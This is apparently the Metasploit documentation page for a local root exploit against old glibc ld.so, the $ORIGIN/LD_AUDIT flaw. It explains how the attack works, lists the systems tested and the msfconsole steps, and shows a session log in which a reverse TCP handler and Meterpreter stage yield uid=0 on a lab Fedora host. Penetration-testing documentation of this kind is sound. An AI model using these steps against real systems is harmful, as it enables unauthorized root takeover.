 ## Description

  This module attempts to gain root privileges on Linux systems by abusing a vulnerability in the GNU C Library (glibc) dynamic linker - aka glibc `$ORIGIN` expansion vulnerability.


## Vulnerable Application

  glibc `ld.so` in versions before 2.11.3, and 2.12.x before 2.12.2 does not properly restrict use of the `LD_AUDIT` environment variable when loading setuid executables. This allows control over the `$ORIGIN` library search path resulting in execution of arbitrary shared objects.

  This module opens a file descriptor to the specified suid executable via a hard link, then replaces the hard link with a shared object before instructing the linker to execute the file descriptor, resulting in arbitrary code execution.

  The specified setuid binary must be readable and located on the same file system partition as the specified writable directory.

  This module has been tested successfully on:

  * glibc 2.5 on CentOS 5.4 (x86_64)
  * glibc 2.5 on CentOS 5.5 (x86_64)
  * glibc 2.12 on Fedora 13 (i386, x86_64)

  RHEL 5 is reportedly affected, but untested.

  Some versions of `ld.so`, such as the version shipped with Ubuntu 14, hit a failed assertion in `dl_open_worker` causing exploitation to fail.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/glibc_origin_expansion_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/linux/local/glibc_origin_expansion_priv_esc 
  msf exploit(linux/local/glibc_origin_expansion_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/glibc_origin_expansion_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [+] The target appears to be vulnerable
  [*] Using target: Linux x86
  [*] Writing '/tmp/.R5Ork' (1279 bytes) ...
  [*] Writing '/tmp/.yE35DWbLd' (320 bytes) ...
  [*] Writing '/tmp/.sk7Z3Vl7vJ' (207 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (857352 bytes) to 172.16.191.138
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.138:59187) at 2018-01-27 04:21:24 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : fedora13.localdomain
  OS           : Fedora 13 (Linux 2.6.33.3-85.fc13.i686.PAE)
  Architecture : i686
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter >
  ```

